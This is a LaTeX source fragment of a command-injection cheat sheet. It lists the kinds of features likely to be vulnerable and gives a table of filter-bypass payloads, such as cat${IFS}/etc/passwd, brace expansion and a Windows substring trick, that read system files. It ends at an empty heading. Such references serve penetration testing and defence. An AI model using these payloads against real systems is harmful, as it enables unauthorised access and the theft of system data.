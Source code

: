 \documentclass[12pt]{article}
\begin{document}
\subsection{Indicators}

Look for command injection when:

\begin{itemize}
    \item Application interacts with system commands
    \item Network diagnostic features (ping, traceroute, nslookup)
    \item File operations with user-supplied filenames
    \item Email functionality with user-controlled addresses
    \item Archive extraction with user-supplied archive names
    \item Log viewing/exporting features
    \item System monitoring interfaces
\end{itemize}

\section{Filter Bypasses}

\subsection{Bypass Without Space}

\begin{longtable}{|p{5cm}|p{10cm}|}
\hline
\textbf{Technique} & \textbf{Example} \\
\hline
\verb|${IFS}| & \verb|cat${IFS}/etc/passwd| \\
\hline
\verb|$IFS| & \verb|cat$IFS/etc/passwd| \\
\hline
Brace expansion & \verb|{cat,/etc/passwd}| \\
\hline
Input redirection & \verb|cat</etc/passwd| \\
\hline
Tab character & \verb|cat%09/etc/passwd| \\
\hline
ANSI-C quoting & \verb|X=$'uname\x20-a' \&\& $X| \\
\hline
Windows substring & \verb|ping%CommonProgramFiles:~10,-18%127.0.0.1| \\
\hline
\end{longtable}

\subsection{Bypass With A Line Return}
\end{document}
